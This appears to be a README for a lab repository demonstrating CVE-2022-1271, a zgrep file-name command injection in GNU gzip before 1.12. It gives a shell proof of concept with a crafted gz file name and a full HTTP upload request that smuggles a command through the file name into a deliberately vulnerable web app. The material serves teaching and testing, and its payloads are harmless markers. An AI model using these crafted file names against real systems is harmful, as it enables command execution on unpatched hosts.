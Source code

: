 **CVE-2022-1271 information**

An arbitrary file write vulnerability was found in GNU gzip's zgrep utility. When zgrep is applied on the attacker's chosen file name (for example, a crafted file name), this can overwrite an attacker's content to an arbitrary attacker-selected file. This flaw occurs due to insufficient validation when processing filenames with two or more newlines where selected content and the target file names are embedded in crafted multi-line file names. This flaw allows a remote, low privileged attacker to force zgrep to write arbitrary files on the system.

**Example of attack**

We can do command injection inside gz filename.

```
touch foo.gz
   $ echo foo | gzip > "$(printf '|\n;e cowsay pwned\n#.gz')"
   $ zgrep foo *.gz
    _______
   < pwned >
    -------
           \   ^__^
            \  (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
   foo
```

In this repo, I created the web application wich contain gzip affected version (< 1.12).

We can upload exploit gz file to exploit command injection. Example payload was below:

```
POST /upload.php HTTP/1.1
Host: secplayground.com
Content-Length: 357
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGQB8xjgKZt6PtdGr
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9,th-TH;q=0.8,th;q=0.7,en-US;q=0.6,zh-TW;q=0.5,zh-CN;q=0.4,zh;q=0.3,ja;q=0.2
Connection: close

------WebKitFormBoundaryGQB8xjgKZt6PtdGr
Content-Disposition: form-data; name="uploaded"; filename="|%0A;e touch pwned %0A#.gz"
Content-Type: application/x-gzip

+(ÏKMáû^³
------WebKitFormBoundaryGQB8xjgKZt6PtdGr
Content-Disposition: form-data; name="submit"

Upload Image
------WebKitFormBoundaryGQB8xjgKZt6PtdGr--

```

Source: https://seclists.org/oss-sec/2022/q2/20

